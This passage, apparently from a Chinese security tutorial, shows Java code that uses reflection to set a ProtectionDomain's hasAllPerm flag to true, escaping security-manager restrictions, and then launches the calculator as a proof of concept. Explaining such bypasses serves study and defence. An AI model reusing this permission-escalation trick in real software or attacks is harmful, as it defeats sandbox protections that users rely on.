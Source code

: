 ```plain
                // 利用反射调用getProtectionDomain0方法获取ProtectionDomain
                Method getProtectionDomain = clz.getClass().getDeclaredMethod("getProtectionDomain0", null);
                getProtectionDomain.setAccessible(true);
                ProtectionDomain pd = (ProtectionDomain) getProtectionDomain.invoke(clz);
                // 将ProtectionDomain的hasAllPerm修改为true，使其拥有所有权限
                if (pd != null) {
                    Field field = pd.getClass().getDeclaredField("hasAllPerm");
                    field.setAccessible(true);
                    field.set(pd, true);
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        Runtime.getRuntime().exec("calc");
    }
}
```

看看效果：

![图片](assets/1709279808-51bd6f86783fbce1a66ec160e72b4ab3.png)
